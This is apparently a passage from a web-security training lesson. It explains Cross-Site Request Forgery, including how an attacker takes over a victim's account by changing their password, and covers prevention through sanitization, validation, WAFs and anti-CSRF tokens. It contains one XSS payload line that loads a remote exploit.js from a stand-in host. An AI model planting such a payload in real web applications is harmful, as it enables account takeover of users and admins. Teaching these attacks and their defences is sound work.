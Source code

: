 The third type of front end vulnerability that is caused by unfiltered user input is [Cross-Site Request Forgery (CSRF)](https://owasp.org/www-community/attacks/csrf).`CSRF` attacks may utilize`XSS` vulnerabilities to perform certain queries, and`API` calls on a web application that the victim is currently authenticated to. This would allow the attacker to perform actions as the authenticated user. It may also utilize other vulnerabilities to perform the same functions, like utilizing HTTP parameters for attacks.

A common`CSRF` attack to gain higher privileged access to a web application is to craft a`JavaScript` payload that automatically changes the victim's password to the value set by the attacker. Once the victim views the payload on the vulnerable page (e.g., a malicious comment containing the`JavaScript``CSRF` payload), the`JavaScript` code would execute automatically. It would use the victim's logged-in session to change their password. Once that is done, the attacker can log in to the victim's account and control it.

`CSRF` can also be leveraged to attack admins and gain access to their accounts. Admins usually have access to sensitive functions, which can sometimes be used to attack and gain control over the back-end server (depending on the functionality provided to admins within a given web application). Following this example, instead of using`JavaScript` code that would return the session cookie, we would load a remote`.js` (`JavaScript`) file, as follows:

Code: html

```html
"><script src=//www.example.com/exploit.js></script>
```

The`exploit.js` file would contain the malicious`JavaScript` code that changes the user's password. Developing the`exploit.js` in this case requires knowledge of this web application's password changing procedure and`APIs`. The attacker would need to create`JavaScript` code that would replicate the desired functionality and automatically carry it out (i.e.,`JavaScript` code that changes our password for this specific web application).

---

## Prevention

Though there should be measures on the back end to detect and filter user input, it is also always important to filter and sanitize user input on the front end before it reaches the back end, and especially if this code may be displayed directly on the client-side without communicating with the back end. Two main controls must be applied when accepting user input:

|Type|Description|
|---|---|
|`Sanitization`|Removing special characters and non-standard characters from user input before displaying it or storing it.|
|`Validation`|Ensuring that submitted user input matches the expected format (i.e., submitted email matched email format)|

Furthermore, it is also important to sanitize displayed output and clear any special/non-standard characters. In case an attacker manages to bypass front end and back end sanitization and validation filters, it will still not cause any harm on the front end.

Once we sanitize and/or validate user input and displayed output, we should be able to prevent attacks like`HTML Injection`,`XSS`, or`CSRF`. Another solution would be to implement a [web application firewall (WAF)](https://en.wikipedia.org/wiki/Web_application_firewall), which should help to prevent injection attempts automatically. However, it should be noted that WAF solutions can potentially be bypassed, so developers should follow coding best practices and not merely rely on an appliance to detect/block attacks.

As for`CSRF`, many modern browsers have built-in anti-CSRF measures, which prevent automatically executing`JavaScript` code. Furthermore, many modern web applications have anti-CSRF measures, including certain HTTP headers and flags that can prevent automated requests (i.e.,`anti-CSRF` token, or`http-only`/`X-XSS-Protection`). Certain other measures can be taken from a functional level, like requiring the user to input their password before changing it. Many of these security measures can be bypassed, and therefore these types of vulnerabilities can still pose a major threat to the users of a web application. This is why these precautions should only be relied upon as a secondary measure, and developers should always ensure that their code is not vulnerable to any of these attacks.

This [Cross-Site Request Forgery Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html) from OWASP discusses the attack and prevention measures in greater detail.

[Previous](Cross-Site%20Scripting%20(XSS).md)
